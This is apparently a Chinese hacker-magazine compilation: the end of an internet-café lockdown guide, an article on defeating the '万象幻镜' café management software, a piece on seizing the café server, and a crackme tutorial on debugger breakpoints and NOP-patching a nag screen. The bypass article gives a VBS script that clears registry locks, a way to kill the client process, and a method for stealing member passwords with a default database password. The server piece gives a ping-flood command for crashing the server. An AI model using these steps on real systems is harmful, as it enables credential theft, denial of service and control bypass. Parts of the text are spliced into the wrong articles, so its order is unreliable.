中也可以用。需要注意的是，有些软件只能在 user1 中安装才能在其中使用，如果在超级用户中安装后，到 user1 中是用不了的，比如说联众网络游戏。像这样的软件我们只能到 user1 中安装。

### 优化大师设置注册表

下面登陆到 user1 中，如果你觉得有必要可以对 user1 的桌面属性进行设置。上面说过 user1 现在拥有超级用户权限，这里笔者要告诉大家，只有超级用户才可以使用优化大师，这样大家就明白笔者的用意了吧？你可以在开始→程序中找到优化大师。运行界面如图 1 所示。


所要设置的项目及说明见表 1。

### 表 1 优化大师的设置

| 设置项路径 | 选项 | 说明 |
|---|---|---|
| 网络系统优化 | 全选其中的项目 | 防止远程或本地人为恶意修改 IE 属性 |
| 系统安全优化更多设置 | 禁止注册表编辑器 regedit | 禁止本地对注册表直接或采取注册表脚本方式修改注册表 |
|  | 禁止执行注册表脚本文件 |  |
|  | 禁用“屏幕保护”设置选项 | 禁止修改桌面和显示属性，这里不禁止背景选项是因为在 IE 右键中有一“设置为背景”可以修改桌面属性，所以不选，且桌面背景也无关紧要! |
|  | 禁用“外观”设置选项 |  |
|  | 禁用“显示”设置选项 |  |
|  | 在“请选择要隐藏的驱动器”中隐藏除 D 盘 (如果允许用软盘也除 A 盘) 外所有驱动器 | 隐藏盘符使“我的电脑”更简洁 |

以上是借助优化大师对注册表进行的设置，全部设置完后重启电脑，设置便会生效。这些设置只对 user1 生效，对其他用户无效。优化大师还有许多功能，我只挑了些重要的设置项目，依情况不同可以设置其他项目。设置完优化大师后，要把 user1 的用户权限改为受限用户，这样，user1 的使用者就不能使用优化大师了，而且也不能安装任何程序了(不包括绿色软件)。

### 设置“安全”选项

下面讲一讲如何通过“安全”选项来实现驱动器、文件夹、文件的加锁功能。你可以在任意一个驱动器、文件夹、文件的右键/属性中找到“安全”选项。如图2所示。


图2中紫色的标签就是“安全”选项了，图中的上半部分显示的是可以使用这项内容的用户，下半部分绿色部分显示的是对应用户所拥有的权限，通过分配用户和设置其使用权限，便可以达到锁盘、锁文件的目的。你可以通过图中黄色的“添加”、“删除”按钮来分配用户。我们看看图3的结果。

只有获得使用权的用户才可以使用相应的内容，并且只能在其权限范围内活动；如果不获准使用某项内容或超出自己的使用权限，系统会显示如图4所示对话框，以告知你没有使用权限，你也就无法使用！


所有的设置均在系统中真正的超级用户中完成。因为XP的超级用户只有在安全模式下才可以使用，所以在对XP进行此项设置时最好一次完成，否则要重启电脑多次，造成不必要的时间浪费。表2列出了所要加锁的项目。

| 项目 | 用户及权限 | 说明 |
| :--- | :--- | :--- |
| 除D盘外所有驱动器(如A盘可用则A盘也除外) | 2000:<br>1.用户：超级用户(administrator)<br>权限：完全控制<br>XP：<br>1.用户：超级用户(administrator)<br>2.用户：超级用户(第一次进入系统的自定义用户)<br>权限：完全控制 | 禁止上网者使用除D盘(或D、A盘)外所有的驱动器。因为C盘被锁且IE的下载默认路径在C盘，所以下载被禁止，如果想要下载的话必须借助第三方的下载软件，所以此项设置亦有禁止下载的作用。此设置还可以使大部分偷密码软件失效，大部分偷密码软件的原理都是先在C盘的某个地方生成一个txt类型的文本文件，然后当密码数累积到一定数目后再发送到指定邮箱，现在C盘不可读写了，自然不能生成文本文件了，所以偷密码软件也就失效了 |
| C:\Documents and Settings\user1\My Documents | 同上 | 禁止人为或任何程序对user1的我的文档进行修改。除D盘外不允许在任何地方存储文件 |
| C:\Documents and Settings\user1\[开始] 菜单\程序 | 2000:<br>1.用户：超级用户(administrator)<br>权限：完全控制<br>2.用户：user1<br>权限：1.读取和运行；2.列出文件夹目录；3.读取<br>XP:<br>1.用户：超级用户(administrator)<br>2.用户：超级用户(第一次进入系统的自定义用户)<br>权限：完全控制<br>3.用户：user1<br>权限：1.读取和运行；2.列出文件夹目录；3.读取 | 给user1分配只读权限，禁止人为或任何程序对user1的开始菜单进行修改。所以user1的开始菜单总是一成不变的 |
| C:\Documents and Settings\user1\Favorites | 同上 | 给user1分配只读权限，禁止人为或任何程序对user1的收藏夹进行修改。因为网吧电脑的收藏夹总是会被某些人利用收藏一些不良的网站，这样也阻止了不良信息的传播。要注意的是2000的收藏夹“右键|属性”中没有“安全”选项，你必须删掉user1的收藏夹，再到user1中运行一下IE则user1的收藏夹才会显示“安全”选项，然后再进行设置即可 |
| C:\Documents and Settings\user1\桌面 | 同上 | 给user1分配只读权限，禁止人为或任何程序对user1的桌面进行修改。所以，user1的桌面总是一成不变的 |

在完成“安全”选项的设置后，我们还要扩充一下系统的虚拟内存，否则系统会提示你虚拟内存不足，你可以在我的电脑/右键属性/高级/性能/设置(XP在设置里还要选一下高级)里找到虚拟内存选项，然后自定义所有驱动器(一定是所有)的虚拟内存大小，越大越好，建议把磁盘所有剩余空间都利用上(除D盘)。

### 总结

到此为止，我的这套管理模式已经介绍完了。上面所说的只是一个很简单的框架，而且大多是针对来自本地的破坏。当然，系统这样设置后还是存在着很多问题，笔者旨在告诉大家如何去利用系统自有的资源来解决问题，给大家一个新的思路，因为就算是硬盘保护卡也不是完全安全的!其实还有很多功能可以开发，比如控制面板/管理工具里的一系列工具都很有用，有时间大家可以自己研究研究。

## 原理篇

上篇中很多地方只讲到了如何操作，让读者只知其然而不知其所以然，本篇将给大家讲述一下上篇中所涉及到的功能是如何实现的，有兴趣的朋友可以看一看!上篇中所用到的原理知识一共有3大方面:用户的概念;注册表原理;NTFS磁盘格式原理。其中NTFS的实现原理比较复杂且内容较多，我只就上篇中与NTFS有关的功能是如何实现的给大家简单描述一下。

### 用户的概念

Windows 2000与XP的用户机制有所不同，Windows 2000与XP都允许在同一个系统中建立多个用户。Windows 2000是单用户多任务操作系统，XP是多用户多任务操作系统。所谓单用户多任务是指在同一时间只允许惟一用户使用计算机，同时可以执行多个任务;而多用户多任务是指同一时间允许多个用户使用计算机，每个用户可同时执行多个任务。简单的说，如果一个用户正在使用Windows 2000操作系统，另一个用户现在也要使用此系统，那么，正在运行的这个用户必须结束所有任务并退出系统，另一个用户才可使用;但当一个用户正在使用XP操作系统时，另一用户也要使用此系统，那么，正在运行的用户不用结束任何任务，也不用退出系统，直接切换到另一用户即可。同时，每一用户都归属于一个用户组，不同的用户组拥有不同的权限，例如系统管理员组(Administrators)拥有系统的完全控制权，是所有用户组中级别最高的;而受限用户组(users)只拥有系统的使用权，没有对其他用户资源更改和写入权(上篇中的user1就是此种类型)。这样的用户特性是Windows9x系列所不具有的。

栏目编辑 Derek derek@hacker.com.cn
BEGINNERS' CLASS

“万象幻镜”是优秀的网吧管理软件，给网吧管理员减少了许多麻烦，但却给我们在网吧上网的朋友带来了许多不便，因此突破其限制的喊声越来越大，我们黑防自然要满足广大读者的需要啦!

# 突破网吧管理软件限制总动员

文/饶晓超

## ——“万象幻镜”篇

以前的文章里讲的大多是突破“美萍”的方法，很少有提及突破“万象幻镜”的。现在我就谈谈我个人在突破限制方面的一些心得，有些是对付网吧软件的通用方法。

## 一、禁止访问硬盘

打开IE浏览器->收藏，出现一些“MSN”、“电台事件”、“Web 事件”等链接，把鼠标移到着这些字上，点击右键，出现右键的菜单，选取“属性”，这时跳出一个属性框。把


“URL”改为你要进入的文件夹（如图1），改完后点“确认”，属性框消失。现在点你刚才修改的链接就可直接进入你想要进的地方了。

## 二、禁止下载文件

- 1. 把c:/windows/system下名为inetcpl.cpp或其他什么扩展名，改为cpl，即名为“inetcpl.

## 注册表原理

注册表是随Windows95的诞生而诞生的，从Windows95起注册表开始担任配置和管理Windows的任务，注册表存储着计算机中所有的信息。注册表是一个实时的动态数据库，也就是说其中的数据是可变的，计算机中任何设置的变动都会被记录到注册表中，要想获取设置信息也要从注册表中读出相应的信息。我们可以通过手动或第三方软件来更改注册表内的某些键值以实现我们想要的功能。对于注册表的资料有很多，在此我就不多讲了。

### NTFS磁盘格式原理

上篇中讲述的防病毒、锁文件功能都是以NTFS磁盘格式为基础的，下面笔者着重讲述一下NTFS的设计原理。NTFS(New Technology File System)的设计目标是设计一种较安全的文件系统，在这种文件系统基础之上可以实现基于软件的安全防护方案来替代硬件的安全防护功能。它是随Windows NT 3.1诞生的。微软要想在高端服务器市场占据一席之地的话就需要一种新的安全可靠的文件系统来支持NT系统，所以NT小组开发出了这种安全性极高的文件系统NTFS。因为NTFS的高级特性，它先天的对病毒具有免疫力，一般的病毒在NTFS文件系统中很难找到生存空间，即使当硬盘中FAT磁盘格式和NTFS格式共存时，由于NTFS只能被NT系列系统或Windows 2000/xp系统识别，若感染病毒(例如：Funlove病毒)很明显能看到病毒只存在于磁盘格式为FAT的一边。

那它又是如何实现锁文件的功能的呢？下面我简单描述一下。NTFS格式的磁盘中的每个文件及目录中都有一段空间用于记录自身的属性(例如：谁有权使用、属于哪个卷、上一层目录等等)。当有一个进程请求访问某一目录或使用某一文件时，系统会首先验证当前登陆用户的信息，比对当前用户是否被授权访问进程所要访问的内容；其访问权限在不在被授权的权限范围内。如果全部符合则准许访问，否则不准访问(如图4所示)。这样就保证了被授权用户的安全权益。上面介绍的“安全”选项就是基于这一原理!

相信通过这些原理的介绍使您更深入的了解 上篇中的功能都是如何实现的。明晓本质能帮您更好的掌握现象，能够加深您对上篇中所讲内容的理解。最后希望大家能从本文中获取到一些有用的东西，也能够最大化的利用现有资源，避免不必要的浪费!

IE，打开这个文件“安全”、“自定义级别”，把“文件下载”改为启用，就可以下载了。

- 2. 用FTP下载，首先得解除DOS限制，有2种方法：
- ① 用VBS解除DOS及注册表的限制，在文本文件中写入以下内容：
```
dim wsh
set wsh=wscript.createobject("wscript.shell")
wsh.regwrite "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp\Disabled",""
wsh.regwrite "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools","0"
wsh.popup ("已解除")
```
再把文件扩展名*.txt改为*.vbs或*.vbe,双击执行即可，成功后会弹出“已解除”。

- ② 用类似恶意网页的方法修改注册表，在文本文件中写入以下内容：代码如图：


写完后，将扩展名改为.htm，运行即可。

当然，你首先要有自己的网页空间，预先上传个蚂蚁之类的下载软件，用FTP下载到机子上，再用蚂蚁下载。FTP命令这里就不多说了。要说明的是FTP下载要用binary的模式。

- ③ 用IE漏洞，在文本文件中写入以下内容：
```
<html>
<body>

</body>
</html>
```
在``的2个引号中添入下载文件的链接。例如：
``

将文件保存为网页格式，打开。网页一片空白，只有左上角有一个红色小叉。

不急，现在点击IE的“文件”-->“另存为”，把该网页保存。这时出现一个“保存Web页”的对话框，等这个对话框消失，你到保存这个网页的文件夹看看，是不是有一个文件夹名为“网页名+.files”？打开文件夹，就可看到你下载的文件。

- ④ 用QQ叫别人传文件给你，这种方法不适用于有防火墙的网吧。
- ⑤ 修改注册表：
> HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3]
> "1803"=dword:00000000

DWORD 值大于3则不可下载。

## 三、 关闭管理软件

在开机还未出现Windows登陆框,就只有一片蓝底的时候,按“Ctrl+Alt+Del”看是否有网吧管理软件的进程，如没有，按“Esc”，有则结束它的进程。重复此步骤，直到彻底关闭。网吧管理软件的进程名较为隐蔽，万象幻镜的进程名为client，而且要关闭2次。

## 四、 获取管理员及会员密码

- 1. 获取会员密码：
任意打开一个文件夹，在地址栏的下拉菜单中点“桌面”-->“网上邻居”-->“main”或“server”(就是主机啦)。进入后，看看主机开了哪些共享，如果有C盘共享，在C盘里找“octopus”文件夹，再找“octlog.mdb”这个文件。如果没有C盘共享，在其他盘里看看有没有“backup”或“备份”之类的文件夹，有的话试试看能不能找到octopus这类东西，然后找octlog.mdb这个文件。如果进主机的共享要密码，别怕，下载一个工具,PQwak2就可瞬间把密码破解(只对Win98, Me有效)。把octlog.mdb用Office里的Access打开（如果本机没有Access，可把这个文件作为“附件”发到自己信箱，再到有Access的机器上打开），打开后会向你要密码，通用密码是“alpha”。这时会出现一个窗口，打开“userlist”，哈哈，看见什么了……

- 2. 获取管理员密码：
如果前提是有“下载”的权限，下载一个破解万象幻镜密码的软件“wx01”。到此为止，这些方法已足够突破限制了。我认为只要突破下载限制，那么，什么限制都可以解除。

# 入侵万象服务器的方法

如今，很多网吧都安装了万象网吧管理系统，这种系统所带来的方便是有目共睹的。但是，越是便捷的系统所存在的安全隐患就越大，很多黑客就想出了破解这种管理系统的方法，有的甚至可以入侵到网吧服务器，从而获得管理员的权限，严重的甚至可以控制整个网吧，危害性是相当大的。所以，我就来介绍一下黑客入侵服务器的方法，希望能对网管有所帮助。

首先，黑客选定一家网吧，当他打开主机，发现系统是锁住的。（实际上，万象网吧管理系统并没有将系统锁住，只是限制了鼠标的移动范围）解开系统的方法很多，利用最多的是通过智能拼音ABC的输入法漏洞，方法就不在这里介绍了，相信大家都知道，但值得一提的是，当黑客解开系统将万象的文件改名或删除后，如果主机安装了还原精灵，那么重新启动计算机后系统仍然是锁住的。因为还原精灵是最先启动的，将被改名或删除的文件还原。解决的方法就是在解开系统后打开注册表将还原精灵在启动栏中去掉，这样主机重启后系统就是打开的了。好了，现在黑客就要开始真正的入侵。首先，黑客必须下载万象的安装程序，下载地址为：www.intous.com，下载完成后先放着。为什么不安装呢？原因是这样：在一个网吧中，所有的电脑分为客户端和服务端，客户端就是我们上网的主机。而服务端就是服务器，也就是网管用的主机。网管通过服务端向客户端发出各种指令，如开机，关机，结账等等。也就是说，服务端控制着整个网吧。黑客下载了安装程序后可以选择是安装客户端还是服务端，当然是安装客户端。但不是立即就安装。因为黑客所用的主机实际上就是个客户端，这在服务端上显示的很清楚。比如说你坐的是24号机，那么在服务端上就会显示24号机的各种情况，一旦安装了服务端。首先，作为客户端的24号机序列号就会被破坏，这在服务端上会显示出来，这样网管就会来查看原因，真正的黑客当然不会犯这种危险的错误。而且，安装服务端后一个网吧就会有两个服务端，系统不知道应该执行哪个服务端的命令，往往会造成两个服务端都可以控制客户端，这也不是黑客想要达到的目的。所以，黑客要想完全独立的控制整个网吧，就要入侵真正的服务器并使其系统崩溃，使真正的服务器消失，这时再接替原来的服务端，使本来这个客户端成为新的服务端。这种方法不但控制了整個网吧，而且还不会被网管发现，所以是黑客的常用手段。

那么，黑客是怎样令服务器系统崩溃的呢？
答案很简单：攻击服务器。
攻击服务器的方法也是有很多种，这里介绍一下用ping命令使网络瘫痪的方法，我们知道，ping命令可以向目标主机发送数据包，但是这里存在一个漏洞，就是当你向目标主机发送的数据包超过65532字节时，就会造成目标主机死机或者重启。所以，微软公司就限制了数据包的大小，使发送的数据包不能超过65500字节。但是，即使是65500的数据包，如果不断的发送，也会造成目标主机的瘫痪，黑客们用这个命令：`ping -l 65500 -t 192.168.1.25`（输入的IP地址是要攻击的主机的IP，这里是随便举个例子）。这个命令会向目标主机不断的发送65500的数据包，直到系统瘫痪为止，一般不会超过10分钟。所以，黑客向网吧服务器发送这个命令，就使服务器瘫痪，整个网吧掉线。这时黑客就乘机接管服务器。但这里还有个问题，如何获得服务器的IP呢？其实很简单，只要用扫描工具扫描一下本机IP，将最后一个数值改为1就可以了，比如本机的IP是192.168.1.23，那么服务器的IP就是192.168.1.1。这样，黑客入侵网吧服务器的全过程就完了，希望看了这篇文章的人能有所启示，欢迎对这方面有兴趣的朋友一起来交流，我的QQ是122360338。

文/啊吉

# 最简单的逆向工程基础

大家好，密界寻踪栏目又准时和大家见面了。过去的4、5月份，逆向工程界发生了几起比较轰动的事件，现借栏目的一角，给大家简单介绍一下。

## 动态跟踪技术

静态分析完了，下面我们进入动态跟踪的环节，看看用调试器动态调试是如何一步步搞清楚软件流程的。

由于TRW的使用大部分都是字符界面操作，类似于DOS命令一样的东西，所以，这里就不抓很多图给大家了。不过，就一个调试器来说，界面上面的操作都是非常简单的，就是强大如Soft-ICE也不例外，关键就是进入调试环境以后，要自己输入种种命令，来达到自己特殊目的这一点很复杂。

Soft-ICE的使用手册有上百页，大部分都是讲解各个命令的作用、参数、使用方法、注意事项等等，要熟悉这些命令，只有自己多动手，亲自实践，才能真正掌握。TRW和Soft-ICE的命令大部分都兼容，所以，学会了其中一个，另一个肯定也能迅速上手。我们这里以TRW为例。

用TRW调试软件，有2种模式：
- 1. 用它的Browse按钮，选择待调试的文件，然后点击Load，TRW载入待调试文件，进入调试状态。
- 2. 在TRW中设置合适的断点，一旦待调试文件进行某种操作，就会触发我们设置的断点，我们就可以从设断的地方开始跟踪。

方法一和方法二各有优缺点，使用的场合不相同。方法一一般用于脱壳和软件自身CRC校验等需要从软件运行开始就一直跟踪的情形，方法二则适合于我们对该软件的某一部分特别感兴趣，需要从某个特定的地方开始跟踪的情形。很明显，在对付注册码判断的软件保护体系的判断中，我们采用方法二是最适合的。

方法二运用的成功与否，80%取决于断点设置的好坏。一个好用的断点，可以给调试工作带来极大的方便，节省大量的时间；而一个设置不对头的断点，会把人带入无穷无尽的代码丛林中，迷失方向，找不到自己的出路，最后只有无功而返。所以，进入下面的讲解之前，我们先讲讲断点设置问题。

## 问题一：什么是断点

我们把软件运行比作一条流动的河流，断点就相当于我们在河流上修筑的大坝。我们可以用大坝进行发电，改变河流流向，储存河水等工作。同样，我们也可以在软件运行过程中感兴趣的地方设置断点，让软件运行到断点处就停下来，便于我们分析程序的走向，得到运行中的种种信息等。

## 问题二：如何设置断点

每个调试器都有设置断点的功能，这是每个调试器必备的基础功能之一。TRW和Soft-ICE这两个调试器的命令很大程度上是兼容的，断点设置命令也不例外，所以在这里统一介绍。

- 1. bpx：代码段断点
软件的代码执行到断点处，触发断点。
举例：`bpx 401000`——在运行到401000的时候触发断点。
- 2. bpm：数据段断点
软件运行过程中，访问到被设置断点的数据时，触发断点。数据段断点分为读断点、写断点、读写断点3类，分别用R，W，RW表示。默认的数据段断点是读写断点。
举例：`bpm 40312C`——对地址40312C读写均触发断点。
- 3. bpint：中断断点
软件运行中，调用某号中断时触发该断点。DOS下面，软件基本上都是用中断服务完成自身功能。Windows下面，情况发生改变，软件大部分是调用Win API完成自身功能。不过，在某些特别的情况下，中断仍然有其强大的威力和作用（TRW不提供该功能，只有Soft-ICE才可以设置中断断点）。
举例：`bpint 3`——调用3号中断时触发断点
- 4. bpio：端口断点
软件狗，智能卡等“硬件”保护体系，都需要对计算机的端口进行操作，只有对端口操作进行拦截，才能彻底分析清楚软件的流程和运行机制。端口断点就是特别为这方面需要而设置的，只要设置了某端口断点，对于该端口的任何操作都逃不过调试器的掌握。
举例：`bpio 378` ——对378号端口进行操作时，触发断点。
- 5. bmsg：消息断点
特定的窗口接到一个特定消息的时候，触发该断点。
举例：`bmsg 017D WM_GETTEXT` ——句柄为017D的窗口接到WM_GETTEXT消息时，触发断点。

## 问题三：如何让我的断点更有效率

- 1. 加强自己基础知识的学习，熟练掌握常用的API调用规则和参数。经常阅读MSDN中关于API的详细说明，是一条非常好的学习途径。
- 2. 运用调试器提供的“条件断点”功能。比如我现在要在一个循环1000次的算法中设置断点，我想让其循环到500次时触发中断，很明显，采取上面所说的，简单地bpx设置一下是不行的，那样我们的前499次中断都是无用的中断，我们可以这样设置：
```
bpx 401000 if (ecx==500D)
```
这种“条件断点”的语法形式，TRW和Soft-ICE大部分也是一样，并且都是遵循着C语言的语法规则。

有编程基础的朋友很容易就能理解其中的含义。为了让大家更熟悉条件断点，下面再举几个例子：
- 例1. `bpx CreateFileA do "d *(esp+4)"`
调用CreateFileA的时候，执行`d *(esp+4)`命令。这样可以直接看到CreateFileA的FileName参数。
```
bpx 40302C if (eax==78D || ecx==500D) do "? ebx"
```
执行到40302C处时，如果EAX的值为78，或者ECX的值为500时，触发中断，并显示EBX中内容。

注意：调试器中，使用的数据都是十六进值的，我们要输入十进制的78，所以要写78D；500D理由与其一样。

关于断点设置的进一步资料，可以参考国外的技术文献，国内只有吴朝相曾经整理的一份断点设置列表还算详尽，其余的“断点大全”、“断点指南”等都不足一观。

关于断点的问题，就介绍到这里，让我们回到TRW调试的技巧上面来。该Crackme的保护体系应该是这样的：
- 程序要得到一个输入框中的数据，一般来说有3种方法：
- 1. 调用GetWindowTextA;
- 2. 调用GetDlgItemTextA;
- 3. 采用WM_GETTEXT消息：SendMessage hWnd,WM_GETTEXT,TestNum,offset szText。

前两种方法使用比较频繁，第3种很少见。而在Win98下面，GetWindowTextA和GetDlgItemTextA最后都要通过调用hmemcpy来实现，所以，我们只要设置断点`bpx hmemcpy`就可以断下该程序。正因为hmemcpy有如此的通用性，所以在Win98下面，hmemcpy被称为“万能断点”，大部分基于序列号保护的程序，都可以用hmemcpy断点得到关于保护机制的蛛丝马迹。

## 实战 Crackme

理论部分到此为止，下面我们打开TRW，来一次现场实践操作。


图8

- 1. 运行Crackme01，输入注册码：7654321。
- 2. 运行TRW，界面如图8所示，点击OK，TRW自动转换到后台，监视系统运行。
- 3. 按TRW的快捷键Ctrl+N或者Ctrl+M呼出TRW的主界面，如图9。
- 4. 在TRW中，输入命令：`bpx hmemcpy; g`。

命令解释：


图9

`bpx hmemcpy`: 调用 hmemcpy 函数时，中断。
`g`: 退出 TRW 界面，返回被调试程序中，继续操作。

- 5. 点击 Crackme01 的“检验注册码正确性”按钮，TRW 立刻弹出来。

程序在从输入框中取得数据的过程中，由于我们设置了 hmemcpy 断点，所以成功地截获了这一过程。

现在我们是在系统代码的领空里面，而程序要进行判断，肯定是在程序自己的代码领空中。如何从系统代码回到程序代码呢？TRW 提供了伟大的命令：Pmodule，这条命令的意思就是执行指令，一直到返回程序本身代码为止。我们执行完 Pmodule 后，返回到程序代码领空。

现在，我们要做的事情就是单步跟踪，仔细研究清楚程序的执行流程，从而破解其保护体系。对 Crackme01 来说，保护很明显，可以看到一个 lstrcmp 的调用。我们用 F8 或者 F10 的快捷键单步执行到 lstrcmp 处，下命令：`D *esp` 和 `D *(esp+4)` 就可以看到我们输入的号码和用作比较的正确的序列号。

注释：
- 1. F8和F10都是单步的意思，不过一个是Step Into，一个是Step Over。这两个概念用中文很难表达，有人曾经用“宏单步”来表示Step Over，不过我觉得这种表示法仍然不好，所以，还是用英文的Step Into和Step Over表示。这两个到底有什么区别呢？

比如我有一条语句是 Call lstrcmp。如果我用F10 执行它，则会一直等到这个函数执行完，停留在下一条指令处；而如果我用 F8 执行它，则会一直跟进这个子程序中，一条一条汇编指令地执行。

很明显，对于系统 API 调用和一些无关紧要的子程序，我们应该用 F10 带过去，这样可以节省调试的时间，理清自己的思路；而对于很关键的判断注册码正确与否的关键判断子程序和算法子程序，我们一定要用 F8 进入子程序内部，仔细研究。

- 2. D *esp 的意思是“显示以 esp 指向的数据为指针的数据区的数据”。在这个例子里面，我们当然也可以用 D esi、D edi 分别查看输入和用作比较的字符串，但是我觉得采用 *esp 这种形式查看更加通用一些。

对于所有的 API 调用，我们都可以用 D *esp, D *(esp+4)这种形式的命令查看到调用的参数。

以上就是对 Crackme01.exe 保护体系的一次彻底分析。由于 Crackme01 是个很小的程序，所以，我们在反汇编和动态跟踪的时候，很容易就能找到保护代码的关键点，而我们碰到的应用程序不可能体积这么小——最基本的应用程序也有 400~500K 大小。所以，如何找到保护体系的关键点，成为一个重要的课题。还记得上一期我写过的一些在执行软件保护任务的代码中经常出现的汇编语句组合吗？对比一下这里的 Crackme01，怎么样？发现有很多相同之处了吧？

最简单的序列号保护的 Crackme 就分析到这里。虽然得出来的结果非常简单，但是，分析出结果的过程中，我们的思路和用到的知识都是非常重要的逆向工程的基础，希望大家好好品味这个简单的 Crackme。我把这个 Crackme 的源代码和它用到的所有资源都放到了光盘里面，如果想学习 Win32Asm 编程，这也是个最简单的例子。

# Nag 的保护

下面我们来看看一个简单的 Nag 的保护。

什么是 Nag 呢？简单来说，Nag 就是一个让你很烦的窗口，它可以是一个 MessageBox，一个 DialogBox，一个图片，或者其他任何东西。它的目的就是让未注册用户使用时这个软件的时候觉得很烦，最后就狠下心来给作者汇款注册。

我们启动 Crackme02.exe，马上看到一个 Nag


窗口，如图10所示。

当然，这里是为了练习大家的Crack能力，所以这个Nag做得还不是很“烦”人，只要点“确定”就可以进入程序了，当然，进入程序以后，我还设计了“检查Nag”的功能，方便刚入门的朋友跟踪试验。不过，对于碰到用Nag保护的程序来说，Nag就没有这么“可爱”了，一般都会有一个计数器，随着你使用未注册软件日期的延长，那个计数器会越计越长，一直到计数器计数到0，才能允许你点击“确定”一类的按钮。

## 对于Nag的断点设置问题：

首先，我们要明确一点，任何的Nag，本质上都是Window，所以，我们可以用CreateWindowEx这个API来拦截，看它何时创建。
TRW和SICE中，断点设置方法如下：
bpx CreateWindowEx

当然，你可以通过设置条件断点来查看每一个CreateWindowEx函数创建的是哪一个窗口（我们看到的字符串就是窗口的标题）。

可是，一个应用软件，窗口数目一般都不会少于10个，稍微大型一点的软件，就有成百上千个窗口，如果笼统得用CreateWindowEx把创建窗口的代码全部拦截下来，那么分析代码的工作不是一般人能够受得了的。所以，CreateWindowEx这个方法不到万不得已，不要采用（顺便提一句，CreateWindowEx还不能算是最底层的方法，最底层的方法应该是RegisterClassEx，在跟踪Macromedia公司的AuthorWare的About对话框时，就要采用这个RegisterClassEx的方法。不过太繁杂了，不准备详细介绍）。

那么，我们有什么简化的方法来拦截Nag的程序呢？
对于最简单的Nag，大都是MessageBox格式的，所以，我们可以采用Bpx MessageBox的方法来拦截。不过很可惜，对于Borland系列编译器（BCB，Delphi等）编译出来的EXE文件，它们的MessageBox函数不是标准的WinAPI调用，用的是自己的函数。这种情况还发生在上面我们讲的取得对话框中的字符的情形中——所有的Borland编译器编译出来的EXE要从Edit标准Windows控件中取得字符，都是采用的SendMessage形式，大大加大了我们跟踪的难度。所以，采用Borland公司的编译器，本身就是一个不错的加密手段。MS的VC编译出来的代码太过于规范，规范到可以直接从ASM->C/C++的地步！所以，VC编译出来的代码，如果中间不加入特殊的Anti的代码，或者是在加密算法上狠下功夫，其破解要比Borland的东西容易得多。
最简单的Nag用MessageBox，那么，稍微复杂一点的呢？我们还有DialogBoxParam这个选择！这个API是用来创建一个对话框的。根据我的经验，70%以上的Nag使用了这个函数，所以，虽然创建对话框我们有很多的选择：CreateDialog，CreateDialogIndirect等等，但是，在对付Nag的时候，我强烈推荐使用bpx DialogBoxParam断点。

最后，Win98系统下面，还有一个很好用的16位的断点——LockMyTask，这个断点在你点了Nag的“确定”按钮之后触发，有90%以上的成功率，是由我们国家的一位逆向工程老前辈CoolFly发现的。不过该断点也和我们上面所说的“万能断点”hmemcpy一样，是个16位的断点，不能用在Win2000下面，不能不说是一个极大的遗憾！

好了，关于Nag保护的理论部分就罗嗦到这里，下面我们进入实战阶段。
上面对于序列号的保护，我们是在TRW中设置断点，然后进行注册码比较从而触发断点的。现在，我们来一种新的思路——从软件最开始执行进行跟踪。具体做法如下：

我们运行TRW，点击那个“Browse”按钮，选择我们的Crackme02.exe，点OK，TRW就把Crackme02.exe载入了内存，并且准备运行。我们一条指令一条指令往下走（还记得哪个键是单步吗？对，F10和F8），一直看到有如下代码：

```
:004010BF push 00000000
:004010C1 push 00401014 ← DialogBoxParam 的消息处理函数地址
:004010C6 push 00000000
:004010C8 push 00000064
:004010CA push dword ptr [00403024]
* Reference To: USER32.DialogBoxParamA, Ord:0092h
:004010D0 Call 004010DC ← 建立程序主窗口
```

我们发现，程序的主窗口的消息函数是在401014处，于是，我们下指令：U 401014，看到如下代码：

```
:00401014 push ebp
:00401015 mov ebp, esp
:00401017 push ebx
:00401018 push edi
:00401019 push esi
:0040101A push edx
:0040101B push ecx
:0040101C cmp dword ptr [ebp+0C], 00000010
:00401020 jne 0040103C
:00401022 push 00000000
:00401024 push [ebp+08]
* Reference To: USER32.EndDialog, Ord:00B8h
:00401027 Call 004010E2
:0040102C mov eax, 00000000
:00401031 pop ecx
:00401032 pop edx
:00401033 pop esi
:00401034 pop edi
:00401035 pop ebx
```

很明显，这里是在进行消息的分派，根据不同的消息，执行不同的代码（消息处理函数后面还有很多，为了节省篇幅，从略）。我们根据Nag的类型，猜想Nag是MessageBox型的，于是上下翻动屏幕，马上就在401014的上面看到了如下代码：

```
:00401000 push 00000000
:00401002 push 0040301E
* Possible StringData Ref from Data Obj ->" 这就是Nag窗口了 Crack Me~!"
:00401007 push 00403000
:0040100C push 00000000
* Reference To: USER32.MessageBoxA, Ord:01BBh
:0040100E Call 004010EE ←调用MessageBox产生Nag!
:00401013 ret
```

说明：我这里引用的代码是用W32Dasm反汇编出来的，在TRW中，是看不到上面的字符串参考信息的，不过可以通过D命令看到信息，TRW不支持中文显示，所以，我们看不到汉字，只能看到ASCII码。

怎么样？很容易就抓到Nag的尾巴了。下面我们要做的事情，就是把产生Nag的代码全部修改掉。具体点说，也就是把401000到401012的代码全部Nop掉!

什么是Nop呢?

Nop是Intel系列CPU的一个指令。这条指令的意思就是“什么也不做”。我们不想让它产生Nag，所以，让产生Nag的指令全部变成“什么都不做”就行了。

为什么是全部Nop呢?

虽然执行MessageBox的实际指令就是Call 4010ee一条，不过，前面的4条Push指令都是为这个函数的调用打基础的，为了维持堆栈的平衡。我们要把它们全部Nop掉。

全部Nop掉，如何实现呢?

用我上期《Cracker的工具》中任意一款十六进制编辑器都可以实现。当然，Hiew也能完美地完成任务。具体的操作就是选择我们要Nop的代码段，把它们全部填充为90h就行了。

全部填充？听起来工作量好大，有没有更方便的方法?

当然有，我们的目的很简单，就是让Nag不工作，我们可以让产生Nag的函数什么都不执行，直接返回，也就是把401000处的代码改成RET，让这个子程序什么都不干，就完美地去除了Nag!这种改法更加漂亮，简单，不过，有些Nag不是单独的子程序，所以我们不能全部都改成简单的返回了事，一定要具体问题具体分析，其中，特别要注意堆栈的平衡问题!

经过了这番修改，我们再运行Crackme02，发现已经没有Nag了！说明我们完美地去除了这个Nag的保护。

本来这一期还准备了一个KeyFile保护的Crackme，由于版面原因，留到下一期再奉献给大家吧。

